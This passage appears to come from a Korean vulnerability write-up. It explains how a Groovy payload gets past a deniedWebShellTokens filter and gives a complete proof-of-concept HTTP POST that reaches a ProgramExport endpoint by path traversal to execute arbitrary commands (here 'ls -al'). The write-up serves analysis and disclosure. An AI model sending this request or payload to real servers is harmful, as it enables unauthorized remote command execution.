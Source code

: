 그러나 유효성 검사 필터링 값(`security.properties` 내 `deniedWebShellTokens`)을 보면 `execute` 함수가 정의되어 있지 않습니다

![image](./images/image-012.png)

따라서 `groovyProgram` 파라미터는 아래의 코드로 구성하여 임의 명령어를 실행시킬 수 있습니다.

```groovy
throw new Exception('ls -al'.execute().text);
```

## PoC

위 내용을 토대로 다음의 HTTP Request 패킷을 전달합니다.

```
POST /webtools/control/main/test/../ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 61

groovyProgram=throw+new+Exception('ls+-al'.execute().text);
```

그 결과 다음과 같이 임의 명령어(`ls -al`)가 실행되어 응답 데이터에 반환되는 것을 확인할 수 있습니다.

![image](./images/image-013.png)
